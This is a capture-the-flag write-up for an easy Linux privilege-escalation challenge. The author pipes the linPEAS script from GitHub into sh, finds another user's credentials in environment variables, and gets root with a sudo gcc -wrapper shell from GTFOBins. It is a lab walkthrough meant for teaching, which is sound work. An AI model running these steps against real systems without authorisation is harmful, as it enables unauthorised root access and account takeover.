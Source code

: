 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerable configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>
ssh: connect to host <ip> port 22: Connection refused
```

Ah, ok, why tho? Let's check what ports are open and services running:

```bash
nmap -sV <ip>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 15:19 AEDT
Nmap scan report for <ip>
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
 
```

Switching ports.

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for that "privesc" as it's call in "the biz".

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0  805k    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

```

... etc etc ... 

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?  
HOME=/home/Pentester 
LOGNAME=Pentester
JOAN_TEMPORARY_CREDS=jojocreds1
```
 
Well well well. For reasons mysterious there are temp creds for another user in the environment variables of our account. 

Let's try SSHing into their account and see what permissions they have. Fingers crossed they're in `sudo` group and we can use their privilege to escalate ours **sinister laugh**. 

What's our target account though? 

```bash
ls /home
Joan  Pelski  Pentester  Shedra  user
```

Spoiler alert: it's the Joan account. Let's try to ssh into their account with the creds. 

```bash

ssh Joan@localhost 
Joan@localhost's password: <enter creds>
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Nov 28 22:51:34 2024 from 127.0.0.1

```

**lowers sunglasses** We're in!

---

### Step 2: Priv Esc

See what groups Joan's in.

```bash
groups
Joan sudo
```

Good, good, now let's add our pentester account to sudoers.

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Blerg! Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour.

![image](./gandalf-white.gif)

Thanks wizard teammate 🧙 10 seconds, one command, and a URL later. 

The command which shows the commands they can run as sudo.

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

The URL with ways to exploit that: https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that GTFObin command now.

```bash
sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# 
```

😍 

Now we can give our Pentester account sudo powers.

```bash
sudo usermod -aG sudo Pentester
exit
exit
exit
```

There we logged out of root, Joan, and Pentester, then sshed back in to the latter and to apply the new group memberships. Check those.

```bash
ssh -p 2222 Pentester@<ip>
groups
Pentester sudo
```

Huzzah! Now what commands can we run as sudo?

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Interesting this one, as the commands are limited to those Joan had. Wasn't expecting that. 

Run that GTFOBin again with our account

```bash
Pentester@host:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# 
```

Privilege escalated.

---

### Step 3: Flag Retrieval

Now the flag's gotta be here somewhere, normally I use `find` (looking for flag.txt) or `grep` (looking for string FLAG within a file) on the entire file system. Trying find first 

```bash
# find / -name flag.txt -type f
/root/flag.txt
```

Then

```bash
# cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Reflections

- Ask teammates for help when you get blocked. Difficult for you can be easy for them and vice versa. 
- As a team, set up some tools in comms (like a thread for each challenge) to share progress and artefacts for challenges so someone can pick up from where someone else is stuck.
- Linpeas and gtfobins are l337h4x0r tools to privesc on linux. 🫶

---



